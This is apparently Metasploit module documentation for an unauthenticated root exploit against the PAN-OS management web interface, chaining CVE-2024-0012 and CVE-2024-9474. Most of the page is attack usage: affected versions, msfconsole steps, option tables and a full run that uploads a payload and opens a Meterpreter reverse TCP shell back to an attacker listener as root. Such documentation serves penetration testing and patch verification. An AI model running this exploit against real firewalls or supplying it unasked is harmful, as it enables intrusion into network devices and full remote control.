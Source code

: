 ## Vulnerable Application
This module exploits an authentication bypass vulnerability (CVE-2024-0012) and a command injection
vulnerability (CVE-2024-9474) in the PAN-OS management web interface. An unauthenticated attacker can
execute arbitrary code with root privileges.

The following version are affected:
  * PAN-OS 11.2 (up to and including 11.2.4-h1)
  * PAN-OS 11.1 (up to and including 11.1.5-h1)
  * PAN-OS 11.0 (up to and including 11.0.6-h1)
  * PAN-OS 10.2 (up to and including 10.2.12-h2)

## Testing
Install a new PAN-OS instance as a VM in VMWare, by downloading an OVA for a vulnerable version, for example
`PA-VM-ESX-11.1.4.ova`. Install this OVA in VMWare Workstation and boot the device. The first ethernet adapter
will be assigned an IP address via DHCP. This is the IP address of the management interface. You can complete setup
by visiting `https://MANAGEMENT_IP/` in your browser. You do not need to license the target VM in order to successfully
run the exploit against the target. The default user is `admin` with a password of `admin`, and you will be instructed
to change this upon logging in for the first time.

The exploit has been tested against PAN-OS `10.2.8` and `11.1.4`, with the
payload `cmd/linux/http/x64/meterpreter_reverse_tcp`.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/panos_management_unauth_rce`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
5. `set LPORT 4444`
6. `check`
7. `exploit`

## Options

### WRITABLE_DIR
The full path of a writable directory on the target. By default it will be `/var/tmp`. The exploit will write the
payload as a series if chunks to this location, before executing the payload. The written artifacts are then deleted.

## Scenarios

### Default

```
msf6 exploit(linux/http/panos_management_unauth_rce) > show options

Module options (exploit/linux/http/panos_management_unauth_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.86.100   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         443              yes       The target port (TCP)
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                          no        HTTP server virtual host
   WRITABLE_DIR  /var/tmp         yes       The full path of a writable directory on the target.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      pHLZiKRnmfR      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/panos_management_unauth_rce) > check
[+] 192.168.86.100:443 - The target is vulnerable.
msf6 exploit(linux/http/panos_management_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Uploading payload chunk 1 of 7...
[*] Uploading payload chunk 2 of 7...
[*] Uploading payload chunk 3 of 7...
[*] Uploading payload chunk 4 of 7...
[*] Uploading payload chunk 5 of 7...
[*] Uploading payload chunk 6 of 7...
[*] Uploading payload chunk 7 of 7...
[*] Amalgamating payload chunks...
[*] Executing payload...
[*] Sending stage (3045380 bytes) to 192.168.86.100
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.100:54266) at 2024-11-21 16:35:38 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.100
OS           : Red Hat  (Linux 4.18.0-240.1.1.28.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
